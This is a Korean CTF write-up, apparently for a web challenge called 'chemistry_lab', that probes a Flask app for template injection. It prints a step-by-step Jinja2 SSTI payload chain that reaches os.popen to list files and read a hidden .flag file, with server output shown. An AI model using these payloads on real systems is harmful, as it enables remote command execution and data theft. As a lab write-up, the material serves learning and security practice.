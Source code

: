 # chemistry_lab
- - - -
문제에 접속을 해 보면 아래와 같은 그림과 find버튼이 봉인다.
* mainpage
![](chemistry_lab/index.PNG)

find에 어떤 값을 넣어 보았다.
* test
![](chemistry_lab/test.PNG)

입력값이 그래도 출력 되었다. 문제 설명에서 flask를 언급해서 `{{7*7}}`을 입력해 보았다.
* test_2
![](chemistry_lab/test2.PNG)

flask를 사용하고 있다. 그래서 `{{config.items()}}` 를 입력해보았다.
* config.items()
![](chemistry_lab/config.PNG)

SECRET_KEY가 flag일줄 알았는데 can you find hidden flag? 가 들어있다. 여기가 아닌가 보다. 그래서 구글링을 좀 해보니 flask에서 system을 사용하는 모듈을 통해 서버에 접근할 수 있다는 내용을 보았다. 그래서 하나씩 찾아보았다. ls를 했더니 flag가 없었다. 그러다 생각난게 can you find hidden flag?였다. 숨긴파일이라는 느낌이여서 ls -al을 해보니 역시 플래그가 있었다.


## payload
- - - -
```
{{[].__class__}}
<class 'list'>

{{[].__class__.__base__}}
<class 'object'>

{{[].__class__.__base__.__subclasses__()[109]}}
<class 'codecs.StreamReaderWriter'>

{{[].__class__.__base__.__subclasses__()[109].__init__}}
<function StreamReaderWriter.__init__ at 0x7f9297b211f0>

{{[].__class__.__base__.__subclasses__()[109].__init__.__globals__["sys"]}}
<module 'sys' (built-in)>

{{[].__class__.__base__.__subclasses__()[109].__init__.__globals__["sys"].modules["os"].popen(%27ls%27).read()}}
dockerfile app.py tmeplates

{{[].__class__.__base__.__subclasses__()[109].__init__.__globals__["sys"].modules["os"].popen(%27ls -al%27).read()}}
total 24 drwxr-xr-x 3 root root 4096 May 1 07:08 . drwxr-xr-x 1 root root 4096 May 1 07:09 .. -rw-r--r-- 1 root root 26 Apr 30 06:41 .flag -rw-r--r-- 1 root root 106 Mar 20 01:11 Dockerfile -rw-r--r-- 1 root root 489 May 1 07:07 app.py drwxr-xr-x 2 root root 4096 Mar 20 01:11 templates

{{[].__class__.__base__.__subclasses__()[109].__init__.__globals__["sys"].modules["os"].popen(%27cat%20.flag%27).read()}}
```


## flag
- - - -
![](chemistry_lab/%E1%84%8F%E1%85%A2%E1%86%B8%E1%84%8E%E1%85%A5.PNG)

#CTF/IGRUS/web